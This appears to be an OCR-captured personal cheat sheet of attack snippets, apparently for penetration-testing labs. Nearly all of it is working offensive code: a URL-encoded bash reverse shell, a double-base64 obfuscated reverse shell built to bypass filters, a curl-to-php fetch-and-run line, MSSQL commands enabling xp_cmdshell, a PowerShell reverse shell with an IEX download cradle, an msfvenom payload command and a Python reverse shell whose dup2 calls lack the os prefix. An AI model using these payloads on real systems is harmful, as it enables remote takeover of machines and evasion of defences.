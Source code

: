 #Shell encode

``` 
 bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.134/80+0>%261'
bypass shell:  echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
curl+http://192.168.118.9/assertion-shell.php|php

```
# exploittation
 go to insite and run: 
``` 
 EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

```

ReverseShell:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "# ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
e.Length);$stream.Flush()};$client.Close()
``` 
save the shell.ps1 file. then using the python to download 

From the sql cmd: 

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://IP/shell.ps1\");"

# msf venom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.37 LPORT=53 -f exe -o reverse64.exe
```
# python

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.6",1233));
dup2(s.fileno(),0); 
dup2(s.fileno(),1); 
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
